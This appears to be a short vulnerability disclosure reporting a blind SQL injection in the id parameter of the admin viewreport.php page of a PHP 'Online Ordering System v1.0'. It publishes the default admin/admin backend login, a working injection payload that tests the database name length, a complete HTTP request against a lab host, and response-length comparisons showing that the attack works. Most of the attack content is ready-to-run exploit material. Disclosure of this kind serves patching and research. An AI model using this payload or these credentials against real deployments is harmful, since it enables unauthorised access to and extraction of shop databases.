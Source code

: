 # Online Ordering System v1.0 by oretnom23 has SQL injection

Author： k0xx

The password for the backend login account is: admin/admin

vendors: https://www.sourcecodester.com/php/5125/online-ordering-system-using-phpmysql.html

Vulnerability File: /onlineordering/admin/viewreport.php

Vulnerability location: /onlineordering/admin/viewreport.php?id=,id

[+] Payload: /onlineordering/admin/viewreport.php?id=TKE-KMS%27%20and%20length(database())%20=12--+ // Leak place ---> id

Current database name: shoppingcart,length is 12

```sql
GET /onlineordering/admin/viewreport.php?id=TKE-KMS%27%20and%20length(database())%20=12--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=v112m4jpgqqtdo86av7lvbjv3l
Connection: close
```

When length (database ()) = 11, Content-Length: 1025

![image](https://user-images.githubusercontent.com/54017627/167338702-5dcbf0c8-26bd-4646-b479-383e607fb943.png)

![image](https://user-images.githubusercontent.com/54017627/167338754-6c3d0889-cde2-46f8-868f-86b4cbee95dc.png)

When length (database ()) = 12, Content-Length: 1486

![image](https://user-images.githubusercontent.com/54017627/167338680-454a7d80-ccb4-46f2-9770-de2f95fa2ddf.png)

![image](https://user-images.githubusercontent.com/54017627/167338719-c1465ab1-78b8-4434-873d-ea364e7ceb34.png)
